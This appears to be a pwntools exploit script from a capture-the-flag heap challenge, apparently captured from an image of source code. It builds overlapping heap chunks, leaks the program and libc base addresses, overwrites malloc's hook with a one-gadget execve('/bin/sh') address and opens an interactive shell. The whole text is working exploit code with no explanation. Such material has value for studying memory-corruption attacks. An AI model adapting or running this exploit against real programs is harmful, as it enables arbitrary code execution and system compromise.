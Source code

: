 ```python
payload += alloc(14, 'str', 0x40) # this chunk will point overlap chunk
payload += edit(14, 0x40) # point bss
payload += show(12) # leak stdout

# overwrite malloc hook
payload += edit(14, 0x40) # point mh
payload += edit(12, 0x8)
payload += alloc(15, 'str', 0x40)

r.sendlineafter(':> ', payload)

# --------
r.recvuntil('--')
r.recvuntil('INT 0 : ')
leak = int(r.recvuntil(']')[:-1])
dbg('leak')
pie = leak - 0xe32
dbg('pie')
r.send('!'*0x40)
r.send('@'*0x40)
pause()
r.send('X'*0x58+p64(0x51))
if args.D:
    # debug(r, [0x11ec, 0x1342, 0x1840, 0x1880, 0x1baf, 0x1d97])
    debug(r, [0x11ec, 0x1bc4, 0x1d97])
r.send('\x10\xa7')

r.send(flat(0, 0, 0xdeadbeef, 1, 0, 0) +p64(pie+0x1e40)+p64(pie+0x202fd0))
r.recvuntil('[STRING 12 : ')
leak = u64(r.recvuntil(']')[:-1]+'\x00'*2)
dbg('leak')
base = leak - 0x3c5620
dbg('base')
ptr_mh = base + 0x3c3ef0 # ptr points to malloc hook

gadget = [
    0x45216, # execve("/bin/sh", rsp+0x30, environ)
    0x4526a, # execve("/bin/sh", rsp+0x30, environ)
    0xf02a4, # execve("/bin/sh", rsp+0x50, environ)
    0xf1147  # execve("/bin/sh", rsp+0x70, environ)
]
r.send(flat(0, 0, 0xdeadbeef, 1, 0, 0) +p64(pie+0x1e40)+p64(ptr_mh))
r.send(p64(base + gadget[3]))

r.interactive()
r.close()
```